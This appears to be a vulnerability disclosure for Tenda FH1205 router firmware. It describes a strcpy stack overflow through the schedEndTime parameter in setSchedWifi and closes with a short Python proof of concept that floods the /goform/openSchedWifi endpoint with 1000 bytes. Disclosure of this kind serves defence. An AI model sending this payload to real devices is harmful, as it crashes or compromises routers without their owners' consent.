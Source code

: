 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v6` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v6);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305225509194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225509194.png)

![image-20240305225530022](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225530022.png)

![image-20240319134434006](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134434006.png)

![image-20240319134449058](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134449058.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320110201617.png)
